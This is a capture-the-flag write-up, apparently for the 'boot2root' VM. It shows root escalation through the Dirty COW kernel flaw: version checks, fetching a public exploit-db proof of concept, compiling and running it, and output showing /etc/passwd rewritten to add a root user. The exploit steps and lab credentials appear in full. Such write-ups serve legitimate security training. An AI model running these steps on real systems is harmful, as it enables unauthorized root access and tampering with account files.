 # Writeup 2 - Kernel Vulnerability

After reading some documentations on how to achieve privilege escalation, we got the idea to search for kernel vulnerabilities.

As mentioned there, https://payatu.com/guide-linux-privilege-escalation, the **Dirty Cow** exploit affects the linux kernel versions **before and including the 3.19.0-73.8 release**.

So we check our kernel version:

```bash
zaz@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

And we see it is running on a vulnerable version. Here is a github repository with a lot of different proof of concepts that use the dirty cow exploits:  
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

We tried to use one of them, but after looking at the comments, we realise the success of the poc also depends on the version of the OS, so we check the VM version to try to find one that could work for us:

```bash
zaz@BornToSecHackMe:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
Codename:	precise
```

And after some research on google we find this one (see the scripts section):  
https://www.exploit-db.com/exploits/40839  

So we download it and sent it to the VM through scp on the zaz account, using the credentials found during the 1st writeup:  
**zaz:646da671ca01bb5d84dbb5fb2238dc8e**

The scp command on our machine:

```
boot2root: ✗ scp -P 22 exploit_dirtycow.c zaz@192.168.1.76:~/
```

Then we log in on the VM with zaz account through ssh, and compile the exploit with gcc, and execute it:

```
zaz@BornToSecHackMe:~$ gcc -pthread exploit_dirtycow.c -o dirty -lcrypt
zaz@BornToSecHackMe:~$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
zaz@BornToSecHackMe:~$ su firefart
Password: 
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
```

And we are root!
